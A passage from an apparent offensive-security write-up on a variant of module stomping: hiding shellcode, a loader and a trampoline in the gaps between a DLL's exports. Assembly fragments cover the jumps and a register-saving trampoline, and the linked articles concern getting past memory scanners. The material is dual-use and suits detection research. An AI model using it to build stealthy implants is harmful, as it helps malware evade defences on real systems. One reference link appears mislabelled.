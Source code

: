 ### Implementation

The full implementation mainly consists of parts already identified above. Let's build our code step-by-step
now.

##### Calculate spaces

For simplicity, I will reuse some [modexpblog][7]'s code in [SysWhispers2][4] to build a list of export of an arbitrary DLL.

* Identify the address of the target DLL exports and store the delta (space) between them
* Find a position which is suitable for the shellcode itself
* Find a position which is suitable for the loader
* Find a position which is suitable for the trampoline
* Fill the others with forward jumps or jump-to-trampoline

##### Jump Forward

Forward JMPs are quite easy to implement, we just need the number of bytes to jump. If we're choosing this 
route, it's because there is very little space between this export and the next one, so a short jump is 
guaranteed to be enough.

```asm
JMP SHORT <NEXT-EXPORT> 
```

##### Goto to Trampoline

A "Goto" like functionality is implemented as a direct long jump. This route is taken if there is enough space
for it, but not enough space for the trampoline or the shellcode itself.

```asm
mov r15, <ADDRESS-OF-TRAMPOLINE>
jmp r15
```

##### Trampoline

```asm
push rcx                                ; Save 4 main args
push rdx
push r8
push r9
push rdi                                ; Saving RDI, as we're using to store RSP
mov rdi, rsp
and rsp, 0fffffffffffffff0h             ; Align stack (required before "call" instruction)
sub rsp, 40h                            ; Shadow space
mov r15, <ADDRESS-OF-LOADER>h           ; Move routine into r15
call r15                                ; Call routine
add rsp, 40h                            ; Restore rsp
mov rsp, rdi
pop rdi                                 ; Restore RDI
pop r9                                  ; Restore original parameters
pop r8
pop rdx
pop rcx
ret                                     ; ret
```


[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/